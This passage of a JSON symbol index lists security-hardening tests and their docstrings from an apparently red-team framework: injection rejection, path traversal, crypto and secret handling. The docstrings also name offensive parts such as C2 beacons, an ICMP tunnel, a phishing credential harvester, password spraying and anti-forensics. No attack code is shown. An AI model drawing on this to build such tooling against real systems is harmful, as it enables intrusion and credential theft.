"def test_rejects_pipe(self)"}, {"doc": "BDD: Given a command with backticks, When I call safe_system,\nThen it must raise CommandInjectionError.", "kind": "method", "line": 54, "name": "test_rejects_backtick", "signature": "def test_rejects_backtick(self)"}, {"doc": "BDD: Given a command with $(...), When I call safe_system,\nThen it must raise CommandInjectionError.", "kind": "method", "line": 62, "name": "test_rejects_dollar_paren", "signature": "def test_rejects_dollar_paren(self)"}, {"doc": "BDD: Given an empty command, When I call safe_system,\nThen it must raise ValueError.", "kind": "method", "line": 70, "name": "test_rejects_empty_command", "signature": "def test_rejects_empty_command(self)"}, {"doc": "BDD: Given a whitespace-only command, When I call safe_system,\nThen it must raise ValueError.", "kind": "method", "line": 78, "name": "test_rejects_whitespace_only", "signature": "def test_rejects_whitespace_only(self)"}, {"doc": "BDD: Given a simple command without metacharacters, When I call safe_system,\nThen it must execute successfully.", "kind": "method", "line": 86, "name": "test_allows_simple_command", "signature": "def test_allows_simple_command(self)"}, {"doc": "BDD: Given an argument with a null byte, When I call safe_run_argv,\nThen it must raise CommandInjectionError.", "kind": "method", "line": 104, "name": "test_rejects_null_byte", "signature": "def test_rejects_null_byte(self)"}, {"doc": "BDD: Given an empty argv, When I call safe_run_argv,\nThen it must raise ValueError.", "kind": "method", "line": 112, "name": "test_rejects_empty_argv", "signature": "def test_rejects_empty_argv(self)"}, {"doc": "BDD: Given a valid command, When I call safe_run_argv,\nThen it must execute without a shell.", "kind": "method", "line": 120, "name": "test_executes_without_shell", "signature": "def test_executes_without_shell(self)"}, {"doc": "BDD: Given a URL with a semicolon, When I validate it,\nThen it must raise UrlValidationError.", "kind": "method", "line": 139, "name": "test_rejects_semicolon_in_url", "signature": "def test_rejects_semicolon_in_url(self)"}, {"doc": "BDD: Given a URL with backticks, When I validate it,\nThen it must raise UrlValidationError.", "kind": "method", "line": 147, "name": "test_rejects_backtick_in_url", "signature": "def test_rejects_backtick_in_url(self)"}, {"doc": "BDD: Given a URL with ftp scheme, When I validate it,\nThen it must raise UrlValidationError.", "kind": "method", "line": 155, "name": "test_rejects_ftp_scheme", "signature": "def test_rejects_ftp_scheme(self)"}, {"doc": "BDD: Given an empty URL, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 163, "name": "test_rejects_empty_url", "signature": "def test_rejects_empty_url(self)"}, {"doc": "BDD: Given a URL without hostname, When I validate it,\nThen it must raise UrlValidationError.", "kind": "method", "line": 171, "name": "test_rejects_missing_netloc", "signature": "def test_rejects_missing_netloc(self)"}, {"doc": "BDD: Given a valid HTTPS URL, When I validate it,\nThen it must return the URL unchanged.", "kind": "method", "line": 179, "name": "test_allows_valid_https_url", "signature": "def test_allows_valid_https_url(self)"}, {"doc": "BDD: Given a valid HTTP URL, When I validate it,\nThen it must return the URL unchanged.", "kind": "method", "line": 187, "name": "test_allows_valid_http_url", "signature": "def test_allows_valid_http_url(self)"}, {"doc": "BDD: Given a URL with shell injection, When I clone,\nThen it must raise UrlValidationError.", "kind": "method", "line": 205, "name": "test_rejects_injection_in_url", "signature": "def test_rejects_injection_in_url(self)"}, {"doc": "BDD: Given a valid URL, When I clone,\nThen subprocess.run must be called with a list (not shell=True).", "kind": "method", "line": 214, "name": "test_uses_subprocess_list_form", "signature": "def test_uses_subprocess_list_form(self, mock_run)"}, {"doc": "BDD: Given ip a show output, When I parse it,\nThen I must get a list of dicts with interface and address.", "kind": "method", "line": 235, "name": "test_returns_list_of_dicts", "signature": "def test_returns_list_of_dicts(self)"}, {"doc": "BDD: Given ip command is not found, When I parse,\nThen it must return an empty list.", "kind": "method", "line": 251, "name": "test_handles_missing_command", "signature": "def test_handles_missing_command(self)"}, {"kind": "method", "line": 270, "name": "_get_validate_fn", "signature": "def _get_validate_fn(self)"}, {"doc": "BDD: Given a repo URL with semicolon, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 281, "name": "test_validate_clone_url_rejects_semicolon", "signature": "def test_validate_clone_url_rejects_semicolon(self)"}, {"doc": "BDD: Given a repo URL with pipe, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 288, "name": "test_validate_clone_url_rejects_pipe", "signature": "def test_validate_clone_url_rejects_pipe(self)"}, {"doc": "BDD: Given a repo URL with dollar sign, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 295, "name": "test_validate_clone_url_rejects_dollar", "signature": "def test_validate_clone_url_rejects_dollar(self)"}, {"doc": "BDD: Given a repo URL with backtick, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 302, "name": "test_validate_clone_url_rejects_backtick", "signature": "def test_validate_clone_url_rejects_backtick(self)"}, {"doc": "BDD: Given an empty URL, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 309, "name": "test_validate_clone_url_rejects_empty", "signature": "def test_validate_clone_url_rejects_empty(self)"}, {"doc": "BDD: Given a non-HTTP URL, When I validate it,\nThen it must raise ValueError.", "kind": "method", "line": 316, "name": "test_validate_clone_url_rejects_non_http", "signature": "def test_validate_clone_url_rejects_non_http(self)"}, {"doc": "BDD: Given a valid HTTPS URL, When I validate it,\nThen it must return the URL unchanged.", "kind": "method", "line": 323, "name": "test_validate_clone_url_allows_valid_url", "signature": "def test_validate_clone_url_allows_valid_url(self)"}, {"doc": "BDD: Given the morse.py module, When I scan its source code,\nThen it must not contain os.system.", "kind": "method", "line": 339, "name": "test_no_os_system_in_morse", "signature": "def test_no_os_system_in_morse(self)"}, {"doc": "BDD: Given the morse.py module, When I scan its source code,\nThen it must use subprocess for screen clearing.", "kind": "method", "line": 346, "name": "test_uses_subprocess_instead", "signature": "def test_uses_subprocess_instead(self)"}, {"doc": "BDD: Given the c2_builder.py module, When I scan for os.system,\nThen it must not use os.system for beacon encryption.", "kind": "method", "line": 363, "name": "test_no_os_system_for_encryption", "signature": "def test_no_os_system_for_encryption(self)"}, {"doc": "BDD: Given the c2_builder.py module, When I scan for os.system,\nThen it must not use os.system for tunnel URL extraction.", "kind": "method", "line": 370, "name": "test_no_os_system_for_tunnel", "signature": "def test_no_os_system_for_tunnel(self)"}, {"doc": "BDD: Given the c2_builder.py module, When I check beacon encryption,\nThen it must use Python-native file operations.", "kind": "method", "line": 377, "name": "test_uses_python_native_for_encryption", "signature": "def test_uses_python_native_for_encryption(self)"}, {"doc": "BDD: Given the execute_command function, When I check its implementation,\nThen it must use shell=False.", "kind": "method", "line": 395, "name": "test_uses_shell_false", "signature": "def test_uses_shell_false(self)"}, {"doc": "BDD: Given the execute_command function, When I check its implementation,\nThen it must use shlex.split to parse commands.", "kind": "method", "line": 402, "name": "test_uses_shlex_split", "signature": "def test_uses_shlex_split(self)"}, {"doc": "BDD: Given the nethelpers.py module, When I check IP display,\nThen it must use subprocess with a list (not shell=True).", "kind": "method", "line": 419, "name": "test_ip_uses_subprocess_list_form", "signature": "def test_ip_uses_subprocess_list_form(self)"}, {"doc": "BDD: Given the nethelpers.py module, When I check clipboard\noperations, Then xclip must not use shell=True.", "kind": "method", "line": 426, "name": "test_no_xclip_shell_true", "signature": "def test_no_xclip_shell_true(self)"}, {"doc": "BDD: Given production code files, When I scan for hardcoded paths,\nThen /home/grisun0 must not appear in non-test files.", "kind": "method", "line": 443, "name": "test_no_home_grisun0_in_production", "signature": "def test_no_home_grisun0_in_production(self)"}, {"doc": "BDD: Given tracked config and agent docs, When I scan them,\nThen the operator home path must not appear in a portable checkout.", "kind": "method", "line": 467, "name": "test_no_home_grisun0_in_configs_and_docs", "signature": "def test_no_home_grisun0_in_configs_and_docs(self)"}, {"doc": "BDD: Given the anti_forensics.py module, When I scan for /root/,\nThen it must use Path.home() instead.", "kind": "method", "line": 491, "name": "test_no_root_home_in_anti_forensics", "signature": "def test_no_root_home_in_anti_forensics(self)"}, {"doc": "BDD: Given telegram_hermes.py, When I check the shebang,\nThen it must use #!/usr/bin/env python3.", "kind": "method", "line": 499, "name": "test_telegram_hermes_uses_env_shebang", "signature": "def test_telegram_hermes_uses_env_shebang(self)"}, {"doc": "BDD: Given the conditional_hooks.py module, When I check\n_resolve_placeholders, Then it must use shlex.quote.", "kind": "method", "line": 516, "name": "test_uses_shlex_quote", "signature": "def test_uses_shlex_quote(self)"}, {"doc": "BDD: Given the safe_exec module, When I check safe_clear_screen,\nThen it must not use os.system.", "kind": "method", "line": 533, "name": "test_no_os_system", "signature": "def test_no_os_system(self)"}, {"doc": "BDD: Given the safe_exec module, When I check safe_clear_screen,\nThen it must use subprocess.", "kind": "method", "line": 543, "name": "test_uses_subprocess", "signature": "def test_uses_subprocess(self)"}, {"doc": "BDD: Given the recon_migrated.py module, When I check the\nalterx PATH setup, Then it must use Python file operations.", "kind": "method", "line": 563, "name": "test_no_os_system_for_path_setup", "signature": "def test_no_os_system_for_path_setup(self)"}, {"doc": "BDD: Given a file exceeding the size limit, When I read it,\nThen it must raise ValueError.", "kind": "method", "line": 580, "name": "test_rejects_oversized_file", "signature": "def test_rejects_oversized_file(self)"}, {"doc": "BDD: Given a file within the size limit, When I read it,\nThen it must return the contents.", "kind": "method", "line": 595, "name": "test_reads_valid_file", "signature": "def test_reads_valid_file(self)"}, {"doc": "BDD: Given a non-existent file, When I read it,\nThen it must raise FileNotFoundError.", "kind": "method", "line": 610, "name": "test_rejects_missing_file", "signature": "def test_rejects_missing_file(self)"}, {"doc": "BDD: Given a tool on PATH, When I search for it,\nThen it must return the path.", "kind": "method", "line": 628, "name": "test_finds_existing_tool", "signature": "def test_finds_existing_tool(self)"}, {"doc": "BDD: Given a tool not on PATH, When I search for it,\nThen it must return None.", "kind": "method", "line": 637, "name": "test_returns_none_for_missing_tool", "signature": "def test_returns_none_for_missing_tool(self)"}]}, {"doc": "SDD+TDD+BDD tests for CodeQL security batch — weak crypto, clear-text secrets, TLS.  Contract: every fix in this batch has a test that proves the weakness is gone and would detect a regression (mutation-killed). Tests are written behaviourally so they read as specifications.  Covers (CodeQL alert ids): - #895 modules/icmp_server.py + icmp_client.py: AES-ECB -> AES-256-GCM - #867 modules/phishing_orchestrator.py: keyed HMAC-SHA-256 instead of salted SHA-256 - #865 utils.py create_caldera_config: hardcoded credentials removed + 0600 perms - #864 utils.py Spray: password no longer logged in clear text - #863 cli/commands/phishing_wizard.py: captured passwords encrypted at rest - #862/#861 lazyc2.py: one-time admin password persisted to a file, not printed - #851 modules/network_opsec.py: minimum TLS version pinned - #859 lazyc2/blueprints/addons.py: reflected cookie injection blocked - #858/#857 lazyc2/blueprints/api.py: exception details not exposed in responses", "id": "tests/test_security_hardening_v5.py", "kind": "module", "label": "test_security_hardening_v5.py", "language": "py", "sha256": "15581f115d297635", "symbol_count": 42, "symbols": [{"doc": "Read a production source file relative to the repository root.", "kind": "function", "line": 33, "name": "_read", "signature": "def _read(rel)"}, {"doc": "CONTRACT: the ICMP C2 tunnel must encrypt with AES-256-GCM and\nauthenticate every payload; ECB mode must be gone.", "kind": "class", "line": 43, "name": "TestIcmpAuthenticatedCrypto", "signature": "class TestIcmpAuthenticatedCrypto"}, {"doc": "CONTRACT: the audit-log fingerprint of a credential must be a keyed\nHMAC so it cannot be brute-forced independently of the secret key.", "kind": "class", "line": 93, "name": "TestCredentialLogHashing", "signature": "class TestCredentialLogHashing"}, {"doc": "CONTRACT: create_caldera_config must generate every credential and set\nowner-only permissions; no hardcoded passwords may be embedded.", "kind": "class", "line": 119, "name": "TestCalderaConfigNoHardcodedSecrets", "signature": "class TestCalderaConfigNoHardcodedSecrets"}, {"doc": "CONTRACT: the ADFS spray function must not print the sprayed password.", "kind": "class", "line": 155, "name": "TestSprayNoClearTextPassword", "signature": "class TestSprayNoClearTextPassword"}, {"doc": "CONTRACT: the campaign harvester must encrypt the password before\nwriting credentials.json and hash it before the audit log.", "kind": "class", "line": 173, "name": "TestPhishingWizardEncryptsCredentials", "signature": "class TestPhishingWizardEncryptsCredentials"}, {"doc": "CONTRACT: the one-time admin password must be written to an owner-only\nfile rather than echoed to the console.", "kind": "class", "line": 196, "name": "TestBootstrapPasswordNotPrinted", "signature": "class TestBootstrapPasswordNotPrinted"}, {"doc": "CONTRACT: TLS inspection must never negotiate below TLS 1.2.", "kind": "class", "line": 222, "name": "TestNetworkOpsecTlsVersion", "signature": "class TestNetworkOpsecTlsVersion"}, {"doc": "CONTRACT: the CSRF client-id cookie must not reflect arbitrary\nuser-supplied values back into a Set-Cookie header.", "kind": "class", "line": 235, "name": "TestCsrfCookieInjection", "signature": "class TestCsrfCookieInjection"}, {"doc": "CONTRACT: health responses must be generic 'error' strings; the raw\nexception is logged server-side, never serialized to clients.", "kind": "class", "line": 259, "name": "TestHealthEndpointNoExceptionLeak", "signature": "class TestHealthEndpointNoExceptionLeak"}, {"kind": "method", "line": 47, "name": "test_server_has_no_ecb", "signature": "def test_server_has_no_ecb(self)"}, {"kind": "method", "line": 50, "name": "test_client_has_no_ecb", "signature": "def test_client_has_no_ecb(self)"}, {"kind": "method", "line": 53, "name": "test_server_uses_gcm", "signature": "def test_server_uses_gcm(self)"}, {"kind": "method", "line": 56, "name": "test_client_uses_gcm", "signature": "def test_client_uses_gcm(self)"}, {"kind": "method", "line": 59, "name": "test_encrypt_decrypt_roundtrip", "signature": "def test_encrypt_decrypt_roundtrip(self)"}, {"kind": "method", "line": 67, "name": "test_tampered_payload_rejected", "signature": "def test_tampered_payload_rejected(self)"}, {"kind": "method", "line": 76, "name": "test_short_payload_rejected", "signature": "def test_short_payload_rejected(self)"}, {"kind": "method", "line": 82, "name": "test_client_sudo_is_guarded", "signature": "def test_client_sudo_is_guarded(self)"}, {"kind": "method", "line": 97, "name": "test_uses_hmac_not_plain_sha256", "signature": "def test_uses_hmac_not_plain_sha256(self)"}, {"kind": "method", "line": 101, "name": "test_no_salted_sha256_fingerprint", "signature": "def test_no_salted_sha256_fingerprint(self)"}, {"kind": "method", "line": 105, "name": "test_fingerprint_is_hmac_of_proper_key", "signature": "def test_fingerprint_is_hmac_of_proper_key(self)"}, {"kind": "method", "line": 123, "name": "test_no_hardcoded_user_passwords", "signature": "def test_no_hardcoded_user_passwords(self)"}, {"kind": "method", "line": 128, "name": "test_generated_user_passwords", "signature": "def test_generated_user_passwords(self)"}, {"kind": "method", "line": 134, "name": "test_writes_with_owner_permissions", "signature": "def test_writes_with_owner_permissions(self)"}, {"kind": "method", "line": 138, "name": "test_functional_generates_no_static_passwords", "signature": "def test_functional_generates_no_static_passwords(self)"}, {"kind": "method", "line": 158, "name": "test_does_not_log_password", "signature": "def test_does_not_log_password(self)"}, {"kind": "method", "line": 163, "name": "test_logs_success_without_secret", "signature": "def test_logs_success_without_secret(self)"}, {"kind": "method", "line": 177, "name": "test_encrypts_password_before_storage", "signature": "def test_encrypts_password_before_storage(self)"}, {"kind": "method", "line": 181, "name": "test_hashes_password_before_log", "signature": "def test_hashes_password_before_log(self)"}, {"kind": "method", "line": 185, "name": "test_imports_encryption_contract", "signature": "def test_imports_encryption_contract(self)"}, {"kind": "method", "line": 200, "name": "test_no_password_print", "signature": "def test_no_password_print(self)"}, {"kind": "method", "line": 204, "name": "test_persist_helper_exists", "signature": "def test_persist_helper_exists(self)"}, {"kind": "method", "line": 208, "name": "test_persist_uses_owner_only_permissions", "signature": "def test_persist_uses_owner_only_permissions(self)"}, {"kind": "method", "line": 212, "name": "test_persist_writes_to_file", "signature": "def test_persist_writes_to_file(self)"}, {"kind": "method", "line": 225, "name": "test_pins_minimum_version", "signature": "def test_pins_minimum_version(self)"}, {"kind": "method", "line": 239, "name": "test_validates_client_id", "signature": "def test_validates_client_id(self)"}, {"kind": "method", "line": 243, "name": "test_validator_accepts_only_urlsafe_token", "signature": "def test_validator_accepts_only_urlsafe_token(self)"}, {"kind": "method", "line": 263, "name": "test_no_exception_interpolation", "signature": "def test_no_exception_interpolation(self)"}, {"kind": "method", "line": 267, "name": "test_database_error_is_generic", "signature": "def test_database_error_is_generic(self)"}, {"kind": "method", "line": 271, "name": "test_listener_error_is_generic", "signature": "def test_listener_error_is_generic(self)"}, {"kind": "method", "line": 275, "name": "test_loads_only_generic_error", "signature": "def test_loads_only_generic_error(self)"}, {"kind": "class", "line": 280, "name": "BrokenDB", "signature": "class BrokenDB"}]}, {"doc": "Security tests for the LazyOwn C2 web layer.  Validates path traversal resistance, input sanitization, secret management, and content security policies using pytest.", "id": "tests/test_security_lazyc2.py", "kind": "module", "label": "test_security_lazyc2.py", "language": "py", "sha256": "d28c193b9462836e", "symbol_count": 58, "symbols": [{"doc": "Pure logic of _secure_command_queue_path for isolation testing.\n\nSanitises client_id, joins with base_dir, resolves via realpath, and\nvalidates path confinement.\n\nArgs:\n    client_id: Raw beacon id.\n    base_dir: The ALLOWED_DIRECTORY base path.\n\nReturns:\n    The validated absolute real path.\n\nRaises:\n    ValueError: If the sanitised id is empty or the path escapes.", "kind": "function", "line": 32, "name": "_build_command_queue_path", "signature": "def _build_command_queue_path(client_id, base_dir)"}, {"doc": "Validate route path sanitization.", "kind": "class", "line": 59, "name": "TestRoutePathValidator", "signature": "class TestRoutePathValidator"}, {"doc": "Validate Jinja2 template name sanitization.", "kind": "class", "line": 84, "name": "TestTemplateNameValidator", "signature": "class TestTemplateNameValidator"}, {"doc": "Validate YAML filename sanitization.", "kind": "class", "line": 107, "name": "TestYamlFilenameValidator", "signature": "class TestYamlFilenameValidator"}, {"doc": "Validate request data length constraints.", "kind": "class", "line": 127, "name": "TestRequestDataValidator", "signature": "class TestRequestDataValidator"}, {"doc": "Validate AES key length enforcement.", "kind": "class", "line": 151, "name": "TestAESKeyValidator", "signature": "class TestAESKeyValidator"}, {"doc": "Validate password minimum length enforcement.", "kind": "class", "line": 174, "name": "TestPasswordLengthValidator", "signature": "class TestPasswordLengthValidator"}, {"doc": "Validate upload size constraints.", "kind": "class", "line": 192, "name": "TestUploadSizeValidator", "signature": "class TestUploadSizeValidator"}, {"doc": "Validate path traversal resistance using Path.resolve().", "kind": "class", "line": 212, "name": "TestFilePathWithinBaseValidator", "signature": "class TestFilePathWithinBaseValidator"}, {"doc": "Validate secret key generation and persistence.", "kind": "class", "line": 249, "name": "TestSecretKeyManager", "signature": "class TestSecretKeyManager"}, {"doc": "Validate safe file operations with path traversal protection.", "kind": "class", "line": 272, "name": "TestSafeFileService", "signature": "class TestSafeFileService"}, {"doc": "Validate AES key generation and validation.", "kind": "class", "line": 321, "name": "TestAESKeyManager", "signature": "class TestAESKeyManager"}, {"doc": "Validate upload size service.", "kind": "class", "line": 345, "name": "TestUploadSizeValidatorService", "signature": "class TestUploadSizeValidatorService"}, {"doc": "Validate command queue path construction against path traversal.\n\nContract: _secure_command_queue_path(client_id) in lazyc2.py must:\n1. Return a path within ALLOWED_DIRECTORY for valid client ids.\n2. Reject client ids that sanitise to empty.\n3. Reject paths that resolve outside ALLOWED_DIRECTORY (symlink escape).\n4. Accept alphanumeric + hyphen + underscore ids.", "kind": "class", "line": 366, "name": "TestSecureCommandQueuePath", "signature": "class TestSecureCommandQueuePath"}, {"kind": "method", "line": 79, "name": "test_route_path_validation", "signature": "def test_route_path_validation(self, route_path, expected_valid)"}, {"kind": "method", "line": 102, "name": "test_template_name_validation", "signature": "def test_template_name_validation(self, template_name, expected_valid)"}, {"kind": "method", "line": 122, "name": "test_yaml_filename_validation", "signature": "def test_yaml_filename_validation(self, filename, expected_valid)"}, {"kind": "method", "line": 130, "name": "test_short_data_is_valid", "signature": "def test_short_data_is_valid(self)"}, {"kind": "method", "line": 135, "name": "test_exact_max_length_is_valid", "signature": "def test_exact_max_length_is_valid(self)"}, {"kind": "method", "line": 140, "name": "test_over_max_length_is_invalid", "signature": "def test_over_max_length_is_invalid(self)"}, {"kind": "method", "line": 146, "name": "test_non_string_is_invalid", "signature": "def test_non_string_is_invalid(self)"}, {"kind": "method", "line": 154, "name": "test_valid_32_byte_key", "signature": "def test_valid_32_byte_key(self)"}, {"kind": "method", "line": 160, "name": "test_invalid_16_byte_key", "signature": "def test_invalid_16_byte_key(self)"}, {"kind": "method", "line": 165, "name": "test_invalid_string_key", "signature": "def test_invalid_string_key(self)"}, {"kind": "method", "line": 169, "name": "test_empty_key_is_invalid", "signature": "def test_empty_key_is_invalid(self)"}, {"kind": "method", "line": 177, "name": "test_exact_minimum_length", "signature": "def test_exact_minimum_length(self)"}, {"kind": "method", "line": 182, "name": "test_below_minimum_length", "signature": "def test_below_minimum_length(self)"}, {"kind": "method", "line": 187, "name": "test_non_string_password", "signature": "def test_non_string_password(self)"}, {"kind": "method", "line": 195, "name": "test_none_content_length", "signature": "def test_none_content_length(self)"}, {"kind": "method", "line": 199, "name": "test_valid_size", "signature": "def test_valid_size(self)"}, {"kind": "method", "line": 203, "name": "test_exceeds_max", "signature": "def test_exceeds_max(self)"}, {"kind": "method", "line": 207, "name": "test_exact_max", "signature": "def test_exact_max(self)"}, {"kind": "method", "line": 215, "name": "test_normal_path_is_valid", "signature": "def test_normal_path_is_valid(self, tmp_path)"}, {"kind": "method", "line": 222, "name": "test_traversal_outside_base_is_invalid", "signature": "def test_traversal_outside_base_is_invalid(self, tmp_path)"}, {"kind": "method", "line": 231, "name": "test_traversal_with_dotdot_is_invalid", "signature": "def test_traversal_with_dotdot_is_invalid(self, tmp_path)"}, {"kind": "method", "line": 238, "name": "test_symlink_traversal_is_detected", "signature": "def test_symlink_traversal_is_detected(self, tmp_path)"}, {"kind": "method", "line": 252, "name": "test_generates_new_key_on_first_run", "signature": "def test_generates_new_key_on_first_run(self, tmp_path)"}, {"kind": "method", "line": 258, "name": "test_reuses_existing_key", "signature": "def test_reuses_existing_key(self, tmp_path)"}, {"kind": "method", "line": 264, "name": "test_key_file_has_restrictive_permissions", "signature": "def test_key_file_has_restrictive_permissions(self, tmp_path)"}, {"kind": "method", "line": 275, "name": "test_read_bytes_within_base", "signature": "def test_read_bytes_within_base(self, tmp_path)"}, {"kind": "method", "line": 284, "name": "test_read_bytes_traversal_raises", "signature": "def test_read_bytes_traversal_raises(self, tmp_path)"}, {"kind": "method", "line": 293, "name": "test_write_bytes_creates_file", "signature": "def test_write_bytes_creates_file(self, tmp_path)"}, {"kind": "method", "line": 300, "name": "test_exists_returns_true_for_valid_path", "signature": "def test_exists_returns_true_for_valid_path(self, tmp_path)"}, {"kind": "method", "line": 307, "name": "test_exists_returns_false_for_missing", "signature": "def test_exists_returns_false_for_missing(self, tmp_path)"}, {"kind": "method", "line": 313, "name": "test_exists_traversal_raises", "signature": "def test_exists_traversal_raises(self, tmp_path)"}, {"kind": "method", "line": 324, "name": "test_generates_new_key", "signature": "def test_generates_new_key(self, tmp_path)"}, {"kind": "method", "line": 330, "name": "test_reuses_existing_valid_key", "signature": "def test_reuses_existing_valid_key(self, tmp_path)"}, {"kind": "method", "line": 337, "name": "test_raises_on_invalid_existing_key", "signature": "def test_raises_on_invalid_existing_key(self, tmp_path)"}, {"kind": "method", "line": 348, "name": "test_valid_size_passes", "signature": "def test_valid_size_passes(self)"}, {"kind": "method", "line": 352, "name": "test_exact_max_passes", "signature": "def test_exact_max_passes(self)"}, {"kind": "method", "line": 356, "name": "test_exceeds_max_raises", "signature": "def test_exceeds_max_raises(self)"}, {"kind": "method", "line": 361, "name": "test_none_passes", "signature": "def test_none_passes(self)"}, {"kind": "method", "line": 376, "name": "test_valid_client_id_returns_path_in_base", "signature": "def test_valid_client_id_returns_path_in_base(self, tmp_path)"}, {"kind": "method", "line": 381, "name": "test_empty_after_sanitization_raises", "signature": "def test_empty_after_sanitization_raises(self, tmp_path)"}, {"kind": "method", "line": 385, "name": "test_symlink_escape_raises", "signature": "def test_symlink_escape_raises(self, tmp_path)"}, {"kind": "method", "line": 396, "name": "test_traversal_characters_are_stripped", "signature": "def test_traversal_characters_are_stripped(self, tmp_path)"}, {"kind": "method", "line": 404, "name": "test_alphanumeric_plus_hyphen_underscore_accepted", "signature": "def test_alphanumeric_plus_hyphen_underscore_accepted(self, tmp_path)"}, {"kind": "method", "line": 410, "name": "test_returns_valid_os_path", "signature": "def test_returns_valid_os_path(self, tmp_path)"}]}, {"doc": "Unit tests for :mod:`modules.security_sanitizers`.  Each test asserts a security invariant that the corresponding sanitizer guarantees. The suite is designed so a regression that re-introduces any of the CodeQL findings (#731, #745, #753, #754, #755, #756, #757) breaks an explicit, named test instead of a production endpoint.", "id": "tests/test_security_sanitizers.py", "kind": "module", "label": "test_security_sanitizers.py", "language": "py", "sha256": "44b651714f10a966", "symbol_count": 45, "symbols": [{"doc": "Return the default :class:`SecurityConfig` used by the suite.", "kind": "function", "line": 28, "name": "cfg", "signature": "def cfg()"}, {"doc": "Verify configuration creation and override behaviour.", "kind": "class", "line": 33, "name": "TestSecurityConfig", "signature": "class TestSecurityConfig"}, {"doc": "HTTP response-splitting guarantees (#745, #757).", "kind": "class", "line": 74, "name": "TestHeaderValueSanitizer", "signature": "class TestHeaderValueSanitizer"}, {"doc": "Path-injection guarantees (#753).", "kind": "class", "line": 116, "name": "TestSessionPathResolver", "signature": "class TestSessionPathResolver"}, {"doc": "Socket-binding guarantees (#754, #755).", "kind": "class", "line": 169, "name": "TestBindAddressResolver", "signature": "class TestBindAddressResolver"}, {"doc": "Credential-leak guarantees (#756).", "kind": "class", "line": 201, "name": "TestCommandRedactor", "signature": "class TestCommandRedactor"}, {"doc": "Information-exposure guarantees (#731).", "kind": "class", "line": 251, "name": "TestOutputSanitizer", "signature": "class TestOutputSanitizer"}, {"doc": "End-to-end check that the module reads ``payload.json`` cleanly.", "kind": "class", "line": 311, "name": "TestIntegrationFromPayloadFile", "signature": "class TestIntegrationFromPayloadFile"}, {"doc": "``__all__`` must list every public class and helper.", "kind": "function", "line": 333, "name": "test_module_exports_are_complete", "signature": "def test_module_exports_are_complete()"}, {"doc": "The shipped defaults must fail closed.", "kind": "method", "line": 36, "name": "test_defaults_are_conservative", "signature": "def test_defaults_are_conservative(self, cfg)"}, {"doc": "Known string and int keys override the defaults.", "kind": "method", "line": 44, "name": "test_from_payload_accepts_known_keys", "signature": "def test_from_payload_accepts_known_keys(self)"}, {"doc": "Type-mismatched values must not overwrite the defaults.", "kind": "method", "line": 56, "name": "test_from_payload_drops_wrong_types", "signature": "def test_from_payload_drops_wrong_types(self)"}, {"doc": "``build_default_config`` accepts ``None`` and arbitrary types.", "kind": "method", "line": 67, "name": "test_build_default_config_handles_none", "signature": "def test_build_default_config_handles_none(self)"}, {"doc": "CR, LF and NUL must never appear in the output.", "kind": "method", "line": 77, "name": "test_strips_cr_lf_nul", "signature": "def test_strips_cr_lf_nul(self, cfg)"}, {"doc": "Non-printable bytes outside the allowlist are filtered.", "kind": "method", "line": 85, "name": "test_rejects_control_characters", "signature": "def test_rejects_control_characters(self, cfg)"}, {"doc": "Output never exceeds ``max_header_value_length``.", "kind": "method", "line": 90, "name": "test_length_capped", "signature": "def test_length_capped(self, cfg)"}, {"doc": "RFC 7230 ``token`` names must pass the allowlist.", "kind": "method", "line": 96, "name": "test_valid_name_accepts_rfc7230_tokens", "signature": "def test_valid_name_accepts_rfc7230_tokens(self, cfg)"}, {"doc": "Names with whitespace or control bytes are rejected.", "kind": "method", "line": 102, "name": "test_invalid_name_rejected", "signature": "def test_invalid_name_rejected(self, cfg)"}, {"doc": "``HeaderValueSanitizer`` requires a :class:`SecurityConfig`.", "kind": "method", "line": 110, "name": "test_constructor_rejects_non_config", "signature": "def test_constructor_rejects_non_config(self)"}, {"doc": "``..`` segments must never resolve.", "kind": "method", "line": 119, "name": "test_rejects_parent_traversal", "signature": "def test_rejects_parent_traversal(self, cfg, tmp_path)"}, {"doc": "Absolute paths and leading separators are rejected.", "kind": "method", "line": 125, "name": "test_rejects_absolute", "signature": "def test_rejects_absolute(self, cfg, tmp_path)"}, {"doc": "NUL bytes in filenames are refused.", "kind": "method", "line": 131, "name": "test_rejects_null_byte", "signature": "def test_rejects_null_byte(self, cfg, tmp_path)"}, {"doc": "Excessive segment counts are refused.", "kind": "method", "line": 136, "name": "test_rejects_too_many_segments", "signature": "def test_rejects_too_many_segments(self, cfg, tmp_path)"}, {"doc": "A clean relative path resolves under the base directory.", "kind": "method", "line": 142, "name": "test_resolves_valid_path", "signature": "def test_resolves_valid_path(self, cfg, tmp_path)"}, {"doc": "Validation failures surface as ``False`` rather than exceptions.", "kind": "method", "line": 155, "name": "test_file_exists_false_on_invalid", "signature": "def test_file_exists_false_on_invalid(self, cfg, tmp_path)"}, {"doc": "Empty and non-string base directories are refused.", "kind": "method", "line": 161, "name": "test_constructor_rejects_bad_base", "signature": "def test_constructor_rejects_bad_base(self, cfg)"}, {"doc": "No preferred address must yield the loopback.", "kind": "method", "line": 172, "name": "test_falls_back_to_loopback", "signature": "def test_falls_back_to_loopback(self, cfg)"}, {"doc": "The first parseable IP literal wins.", "kind": "method", "line": 177, "name": "test_accepts_first_valid_preferred", "signature": "def test_accepts_first_valid_preferred(self, cfg)"}, {"doc": "IPv6 literals are accepted.", "kind": "method", "line": 182, "name": "test_accepts_ipv6_literal", "signature": "def test_accepts_ipv6_literal(self, cfg)"}, {"doc": "The unspecified address is only returned when allowed.", "kind": "method", "line": 187, "name": "test_unspecified_requires_opt_in", "signature": "def test_unspecified_requires_opt_in(self, cfg)"}, {"doc": "``BindAddressResolver`` requires a :class:`SecurityConfig`.", "kind": "method", "line": 195, "name": "test_constructor_rejects_non_config", "signature": "def test_constructor_rejects_non_config(self)"}, {"doc": "Real credentials must never appear in the display string.", "kind": "method", "line": 204, "name": "test_display_omits_real_credentials", "signature": "def test_display_omits_real_credentials(self, cfg)"}, {"doc": "The placeholder marker is intentionally shown so operators\ncan tell when no credentials were available.", "kind": "method", "line": 218, "name": "test_placeholder_username_is_visible", "signature": "def test_placeholder_username_is_visible(self, cfg)"}, {"doc": "Non-credential placeholders resolve correctly in both forms.", "kind": "method", "line": 230, "name": 